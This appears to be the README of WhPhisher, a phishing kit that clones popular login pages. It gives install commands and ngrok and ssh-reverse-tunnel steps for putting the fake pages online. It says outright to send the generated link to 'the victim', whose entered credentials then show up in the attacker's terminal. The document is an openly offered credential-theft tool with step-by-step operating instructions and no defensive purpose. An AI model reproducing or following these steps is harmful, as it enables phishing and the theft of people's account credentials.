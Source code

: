 # WhPhisher

The best tool for phishing with the most famous pages updated.


# Tested on:

Termux, Kali Linux and debian


# Steps

To make this tool less likely to fail, it is advised to install the latest version of Termux, and the Termux API.


# -- How to install --

`pkg install bash`

`pkg install git`

`git clone https://github.com/WhBeatZ/WhPhisher.git`

`cd WhPhisher`

`chmod +x *`

`bash requirementswh.sh`

Wait for them to be installed and automatically start WhPhisher :D


![Virtual-Box-VM-Dib-Vpuj-JG9.png](https://i.postimg.cc/K86wfbyL/Virtual-Box-VM-Dib-Vpuj-JG9.png)

Choose the page and wait for the tunneling to start.

![Virtual-Box-VM-pqnlsb1ey-B.png](https://i.postimg.cc/gJJMyjfj/Virtual-Box-VM-pqnlsb1ey-B.png)

# Solution if the link is not generated or does not work (2 solutions)

# - - - Solution 1 - - -


`Open new session`

`cd NgrokWh`

`chmod +x ngrokwh.sh`

`./ngrokwh.sh`

`and`

`ngrok http 8080`

Share the link that generated the victim :D

Now we return to the main session, and if someone put their data, they will appear there :D

-Demonstration images:

![Screenshot-20220116-091839.png](https://i.postimg.cc/HW92dXc7/Screenshot-20220116-091839.png)


![Screenshot-20220116-091856.png](https://i.postimg.cc/kGKQ8yVm/Screenshot-20220116-091856.png)


![Screenshot-20220116-091939.png](https://i.postimg.cc/KvKRJy2v/Screenshot-20220116-091939.png)




# - - - Solution 2 - - -

Steps:

`We open a new session`

`cd`

`pkg install openssh -y`

`ssh -R 80:localhost:8080 nokey@localhost.run`

Share the link that was generated :D

# how it should look
- The green covers personal information
- The yellow arrow points to the link to be shared

![Pics-Art-12-28-12-04-12.jpg](https://i.postimg.cc/Dw0djMxM/Pics-Art-12-28-12-04-12.jpg)

# Result

- The link you sent to the victim:

![chrome-NQpwa-Yi-Wxc.png](https://i.postimg.cc/mrxzN5JH/chrome-NQpwa-Yi-Wxc.png)

When the victim puts her credentials, they arrive in the terminal:

![Virtual-Box-VM-t1m8-G0-J0-MQ.png](https://i.postimg.cc/wjj0Y7jV/Virtual-Box-VM-t1m8-G0-J0-MQ.png)
